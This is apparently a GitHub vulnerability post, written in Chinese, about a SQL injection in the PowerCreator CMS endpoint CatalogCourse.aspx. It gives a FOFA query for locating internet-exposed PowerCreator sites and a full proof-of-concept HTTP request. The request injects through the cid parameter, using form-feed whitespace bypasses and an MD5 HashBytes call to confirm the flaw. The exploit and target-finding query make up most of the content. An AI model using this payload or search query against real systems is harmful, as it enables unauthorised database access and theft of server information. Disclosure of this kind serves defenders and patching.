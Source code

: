 ## PowerCreator接口CatalogCourse.aspx存在sql注入漏洞

PowerCreator接口 CatalogCourse.aspx存在sql注入漏洞。攻击者可利用该漏洞获取服务器上的信息。

## fofa

```yaml
app="PowerCreator-CMS"
```

![image](https://github.com/user-attachments/assets/fcc5c0c8-6a56-42a0-9aba-0d65b1d63a56)

## poc

```yaml
GET /CatalogCourse.aspx?cid=1%0Cand%0C1=sys.fn_sqlvarbasetostr(HashBytes(%27MD5%27,%27123456%27))-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: ASP.NET_SessionId=l2wuj2tri5e554020jeezoyw; language=simpleChineses
Pragma: no-cache
Cache-Control: no-cache


```
